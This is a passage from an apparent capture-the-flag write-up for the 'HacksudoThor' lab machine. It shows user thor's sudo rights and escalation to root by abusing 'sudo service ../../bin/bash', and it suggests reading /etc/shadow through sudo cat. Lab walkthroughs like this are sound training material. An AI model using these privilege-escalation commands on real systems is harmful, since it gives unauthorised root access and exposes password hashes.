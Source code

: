 > User `thor` has been compromised.

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 User flag</b><br/>
      <code>User Owned</code>
    </td>
  </tr>
</table>

</div>

---
## 🔑⬆️    Vertical Privilege Escalation

> We use the same privilege escalation technique via `sudo`:

```bash

thor@HacksudoThor:~$ sudo -l
Matching Defaults entries for thor on HackSudoThor:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User thor may run the following commands on HackSudoThor:
    (root) NOPASSWD: /usr/bin/cat, /usr/sbin/service
thor@HacksudoThor:~$

```
> User `thor` is allowed to run `cat` and `service` as `root` without requiring a password.

> Accordingly, there are two ways to elevate privileges to `root`. Either use `cat` to read `/etc/shadow`, get the `root password hash`, and log in as that user.
> Or go to `gtfobins` and elevate privileges via `service`:

```bash

thor@HacksudoThor:~$ sudo /usr/sbin/service ../../bin/bash
bash-4.3# id
uid=0(root) gid=0(root) groups=0(root)
bash-4.3# cd /root
bash-4.3# cat root.txt
rooted
bash-4.3#

```

> root flag - `rooted`

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 Root flag</b><br/>
      <code>rooted</code>
    </td>
  </tr>
</table>
